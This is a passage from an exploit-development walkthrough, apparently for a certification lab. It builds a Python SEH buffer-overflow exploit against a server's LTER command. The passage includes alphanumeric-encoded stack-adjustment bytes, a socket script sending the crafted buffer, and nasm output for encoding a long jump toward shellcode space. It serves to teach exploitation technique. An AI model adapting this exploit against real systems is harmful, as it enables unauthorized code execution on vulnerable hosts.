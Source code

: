 ```python

espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 

espAdj2 = '\x54\x58\x2c\x2a\x50\x5c'

buffer = 'A' * 3427
buffer += espAdj2
buffer += 'A' * (3514 - 3427 - len(espAdj2))
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

Using this code and stepping through it to the beginning of our `espAdj2` code and we end up here: 

![](/assets/images/CTP/endofbuffer.JPG)

Let's step through it all and see if at the end `ESP` points to `0177FFC3`.

![](/assets/images/CTP/espworked.JPG)

Success! 

### Encoding a Long Negative Jump

Instead of a short jump like we previously did we need to long jump so that we have some actual space for some shellcode. As we already figured out, we have over 3000 bytes between our `espAdj2` code and the beginning of our `A` buffer. 

To accomplish this, we'll push `ESP`, pop `ESP` into a register (`EBX`), subtract x-amount of bytes from it so that it ends up holding the address of the beginning of our `A` buffer `017DF20A`, and then finally jump to it with a `CALL` instruction. 

`ESP` is currently `017DFFC3` so we subtract `017DF20A` and get a difference of `DB9`. Time for some Assembly!
```terminal_session
nasm > push esp
00000000  54                push esp
nasm > pop ebx
00000000  5B                pop ebx
nasm > sub ebx, 0xdb9
00000000  81EBB90D0000      sub ebx,0xdb9
nasm > call ebx
00000000  FFD3              call ebx
```
